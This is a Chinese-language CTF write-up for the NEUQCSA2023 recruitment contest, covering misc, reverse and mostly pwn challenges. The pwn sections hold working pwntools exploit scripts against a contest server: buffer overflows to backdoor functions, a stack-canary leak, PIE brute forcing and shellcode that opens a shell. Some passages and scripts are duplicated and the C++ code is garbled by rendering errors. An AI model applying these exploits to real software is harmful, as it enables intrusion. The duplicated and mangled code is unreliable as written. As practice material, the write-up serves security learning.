

NEUQCSA2023 招新赛 WriteUp

Misc
Login
下载下来是个gif文件，通过某些在线工具就可以拆成单个帧，然后发现是三个图片各有一部分flag，连接起来就行了
有点奇怪的二维码

下载后在winhex查看发现底部存在
hint:LSB简单社工
根据标题可知是一道社工的题目，根据常识可知是大雁塔（也可以bdfs大慈恩寺），直接知道地名，然后，就get到flag了
PWN
backdoor
基础的x64栈溢出，溢出到backdoor完全OK
from pwn import*
p=remote('8.130.110.158',2102)
# gdb.attach(p)
# p=process('')
payload=b'a'* (0x120+8)+ p64(0x4011B6)
p.sendline(payload)
p.interactive()
Canary
checksec后发现开启了canary（根据题目名称也可以知道是canary）
打开IDA后发现有两次read，而且都可以进行栈溢出，且空间足够。由于开启了canary，所以必须先得到canary然后进行栈溢出。
因此，第一次read用来泄露canary，第二次用来ret到backdoor
众所周知，buf在第二个printf输出的时候，遇到\x00才会停止输出。因此我们可以输入足够长的垃圾数据，让他直接占到紧接着canary的位置（0x30-8个a），
这样就不会在canary之前有\x00，这样就可以在输出buf的时候连着canary一起输出。
获得了canary之后就像普通的栈溢出做就行了
打开IDA后发现有两次read，而且都可以进行栈溢出，且空间足够。由于开启了canary，所以必须先得到canary然后进行栈溢出。
因此，第一次read用来泄露canary，第二次用来ret到backdoor
众所周知，buf在第二个printf输出的时候，遇到\x00才会停止输出。因此我们可以输入足够长的垃圾数据，让他直接占到紧接着canary的位置（0x30-8个a），
这样就不会在canary之前有\x00，这样就可以在输出buf的时候连着canary一起输出。
获得了canary之后就像普通的栈溢出做就行了
from pwn import*
context.log_level='debug'
p=remote('8.130.110.158',2106)
# p=process('./6')
# gdb.attach(p,'''
# b * 0x401234
# ''')
payload1=b'a'*(0x30-8)
# p.sendline(payload)
p.sendlineafter('name?',payload1)
# p.recvuntil(b'a'*(0x30-8))
p.recvuntil(b'\x0a')
p.recvuntil(b'\x0a')
# canary=u64(p.recv(7).ljust(8,b'\x00'))
canary=u64(b'\x00'+p.recv(7))
print(hex(canary))
payload2=b'\x00'*(0x30-8)+p64(canary)+p64(1)+p64(0x4011d6)
p.sendlineafter('say?',payload2)
p.interactive()ret3locked_backdoor
Q:what do you do if I lock the back door?
A: FBI!!! Open The F**King DOOR!!!
checksec后没有啥特别的。。。
拖进IDA后发现好扎眼的backdoor
读了代码发现正常栈溢出需要lock=0，于是尝试直接跳到command = "/bin/sh";来执行
而且它读取的地址是rbp-0x10.因此我们可以把shell放在rbp-0x10的地址上面。
具体实现，发现汇编指令里面有两条指令
之后程序就可以以我们自己的方式读入shell，而不依赖于lock的读入。
这样就可以正常执行了。。。
（不要忘记栈对齐哦~~~）
A: FBI!!! Open The F**King DOOR!!!
checksec后没有啥特别的。。。
拖进IDA后发现好扎眼的backdoor
读了代码发现正常栈溢出需要lock=0，于是尝试直接跳到command = "/bin/sh";来执行
from pwn import*
# p=remote('8.130.110.158',2101)
context.log_level='debug'
p=process('./1')
elf=ELF('./1')
gdb.attach(p,'b *0x401273')
bd=0x4011E1
shell=0x402008
ret=0x40101a
retrdi=0x4012f3
a=0x401278
system=0x4040a8
payload=b'a'*0x38+p64(0x4011F7)
p.sendlineafter('However, what do you do if I lock the back door?\n',payload)
p.interactive()
而且它读取的地址是rbp-0x10.因此我们可以把shell放在rbp-0x10的地址上面。
具体实现，发现汇编指令里面有两条指令
0x4011e5 push rbp
0x4011e6 mov rbp, rsp
0x4011e9 sub rsp, 0x10 之后程序就可以以我们自己的方式读入shell，而不依赖于lock的读入。
这样就可以正常执行了。。。
（不要忘记栈对齐哦~~~）
from pwn import*
# p=remote('8.130.110.158',2101)
context.log_level='debug'
p=process('./1')
elf=ELF('./1')
gdb.attach(p,'b *0x401273')
bd=0x4011E1
shell=0x402008
ret=0x40101a
retrdi=0x4012f3
a=0x401278
system=0x4040a8
payload=b'a'*0x30+p64(0x402008)+p64(0x401288)+p64(0x4011E1)
p.sendlineafter('However, what do you do if I lock the back door?\n',payload)
p.interactive()one_hand
Q: God Liang can effortlessly conquer any pwn challenge with just one hand.Can you do it like him?
A: What will he do if I lock Liang's backdoor?
checksec后发现开启了PIE，IDA分析后发现one_hand_read()，意思就是8个字节的空间中只读后面四个字节。
反正咱们爆破PIE只需要修改ret地址后两个字节进行跳转。这里一定不要用sendline，因为它在sendline之后就会自动添加\x0a
（除非你愿意用自己的寿命来换取人品，在换取欧气，然后在爆破doge）
A: What will he do if I lock Liang's backdoor?
checksec后发现开启了PIE，IDA分析后发现one_hand_read()，意思就是8个字节的空间中只读后面四个字节。
反正咱们爆破PIE只需要修改ret地址后两个字节进行跳转。这里一定不要用sendline，因为它在sendline之后就会自动添加\x0a
（除非你愿意用自己的寿命来换取人品，在换取欧气，然后在爆破doge）
# one hand
from pwn import*
import time
#
list1=[b'\x01',b'\x11',b'\x21',b'\x31',b'\x41',b'\x51',b'\x61',b'\x71',b'\x81',b'\x91',b'\xa1',b'\xb1',b'\xc1',b'\xd1',b'\xe1',b'\xf1']
i=0
while True:
i=i+1
print(i)
p=remote('8.130.110.158',2103)
# p=process('./4')
# gdb.attach(p)
context.log_level='debug'
bd=b'\xb1'+random.sample(list1,1)[0]
payload=b'\x11\x11\xad\xde'*11+bd
p.send(payload)
print(hex(payload[-1]))
print(hex(payload[-2]))
# p.interactive()
try:
a=p.recv(timeout=1)
except EOFError:
p.close()
continue
else:
print(a)
# p.send('cat flag')
p.interactive()
breakJmp.Cliff
checksec之后发现啥东西都没开，IDA分析后发现栈溢出的空间充足
之后发现Jmp.Cliff专属的函数，然后里面有jmp rsp的指令，那么就可以考虑把shellcode的开始放在rsp的地方。
就这些。。。
之后发现Jmp.Cliff专属的函数，然后里面有jmp rsp的指令，那么就可以考虑把shellcode的开始放在rsp的地方。
就这些。。。
from pwn import*
context(arch='amd64',os='linux')
# p=process('./7')
p=remote('8.130.110.158',2107)
# gdb.attach(p)
shellcode=asm(shellcraft.sh())
payload=shellcode.ljust(0x38,b'\x00')+p64(0x40119E)+shellcode
p.sendlineafter('down',payload)
p.interactive()艹种子
刚开始拿到这个题目，根据以前所了解的，这个应该是堆的题目。但是我还没学，所以就到了后面才开始做。
直到发了hint：“malloc和free是一对函数。free释放掉的内存单元碎片会由堆管理器进行管理，待到程序malloc同样大小的堆块时，堆管理器会把这块内存拿来重新利用。”
拖进IDA先读一遍代码，之后就有了一些思路：
上来就用try_again()把wall给free了
然后在建一个种子，然后炸掉它
按理来说怎么建都应该没问题，反正炸了在建用的内存都一样。
然后直接hack——backdoor————————————BOOM！！！！！flag{艹}
直到发了hint：“malloc和free是一对函数。free释放掉的内存单元碎片会由堆管理器进行管理，待到程序malloc同样大小的堆块时，堆管理器会把这块内存拿来重新利用。”
拖进IDA先读一遍代码，之后就有了一些思路：
上来就用try_again()把wall给free了
然后在建一个种子，然后炸掉它
按理来说怎么建都应该没问题，反正炸了在建用的内存都一样。
然后直接hack——backdoor————————————BOOM！！！！！flag{艹}
3 1 2 1 4Reverse
upx
没啥东西，upx脱壳后直接解密就行了
#include<=iostream> //tmd这里< code>识别的有点问题反正都能看出来是啥
#include<=cstring> //tmd这里< code>识别的有点问题反正都能看出来是啥
using namespace std;
string v4="just a upx";
char key[100]={0x0C, 0x19, 0x12, 0x13, 0x5B, 0x52, 0x18, 0x4D, 0x44, 0x49,
0x5B, 0x4D, 0x45, 0x59, 0x65, 0x52, 0x64, 0x36, 0x5D, 0x40,
0x2F, 0x37, 0x44, 0x59, 0x16, 0x57, 0x19, 0x36, 0x5D, 0x3E,
0x5B, 0x37, 0x40, 0x45, 0x14, 0x53, 0x62, 0x41, 0x34, 0x3E,
0x29, 0x8, 0x16};
int main(){
for ( int i = 0; i <= 0x29; ++i )
key[i] ^= v4[i % 0xA];
for(int i=0;i <= 0x29; ++i){
cout<=<=key[i]; //tmd这里< code>识别的有点问题反正都能看出来是啥
}
return 0;
}